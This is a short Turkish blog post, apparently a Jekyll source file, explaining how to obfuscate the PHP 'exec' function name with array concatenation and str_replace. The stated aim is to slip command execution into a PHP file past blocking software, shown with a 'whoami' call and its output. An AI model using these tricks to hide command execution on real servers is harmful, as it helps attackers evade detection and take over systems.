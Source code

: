```yaml
---
 layout: post
 title:  "PHP Fonksiyon Şifreleme"
 date:   2018-06-20 01:00:45 +0200
 categories: PHP
 image: /resim/cms_admin2.png	
---
```


<p>Şifreleme nedir? Yaptığımız işlerde veya hayatımızda nasıl bir önemi vardır? Hep görürüz televizyonda suçlular dinlemelere takılmamak için elmaya armut der. Aslında verdiğim örnekten yola çıkarsak  ifade edeceğimiz şeyi hem biz hemde karşı tarafın anlaması lazım. Bu yol ile amacımızı gizlemiş ve gizlilik alanımızı başarıyla oluşturmuş oluyoruz. Fakat bu gizlilik deşifre olabilir. Konumuza gelelim şimdi PHP’deki genelde <s>yasaklı</s> bazı fonksiyonları biliriz. Eğer bilmiyorsak size şöyle örnek vereyim <code>exec</code> komutu tam bir baş belası haline gelebiliyor eğer ki sunucunuza bir takım iyi veya kötü kişiler erişim sağladıysa.</p>
<p>Genelde bu fonksiyonu içeren kısımları engelleyen yazılımlar var. Bir php dosyasına bir ekleme yapacağız fakat bunu karşı tarafa hissettirmeden yapmamız gerekiyor. Öyle ise şu yolları deneyebiliriz;<br>
Bir Array oluşturup buna fonksiyonumuzun her harfini ekleyelim.</p>
<pre><code>$a = array('x','e','c');
</code></pre>
<p>Peki biz ne yaptık aslında ne yapacağız. PHP’de fonksiyonu bir değişkene atayabiliyoruz,örnek;<br>
<code>exec('whoami')</code> bunu komutu ben değişkenle vermek istiyorsam bunu bana mümkün kılıyor PHP , yukarıda oluşturduğumuz Array’ı kullanalım.</p>
<pre><code> $str=$a[1].$a[0].$a[1].$a[2];
</code></pre>
<p>Yav sen oralaya bir şeyler yazdın ama biz bunu anlamadık der gibisiniz. İş size başta bahsettiğim gibi şifrelemede olay hem bizim hemde karşı tarafın anlaması burada olayı PHP’ye bırakıyoruz.Değişkenimize şunları atamış olduk bu işlemi yaparak. <code>$a[1]-&gt;e , $a[2]-&gt;x , $a[1]-&gt; e , $a[2]-&gt; c</code> şimdi kaba kodu bir silelim bakalım değişkenimize ne atanmış.<code>exec</code> değerini değişkenimize başarılı bir şekilde atamış olduk. Şimdi ise onu kullanma vakti geldi.<br>
<code>echo $str('whoami');</code><br>
Çıktı :<br>
<code>testpc\testuser</code><br>
Aslında farklı teknikler ile bu yapıyı genişleyebilirsiniz.Örnek vereyim <code>str_replace</code> kullanarak da aynı sonuç alabiliriz.</p>
<pre><code> $cmd=str_replace("u", "", "ueuxueucu");
 echo $cmd('whoami')
</code></pre>
<p>çıktısı yine aynı olacaktır.<br>
Bir seferki konuda görüşmek üzere sağlıcakla Kalın!</p>

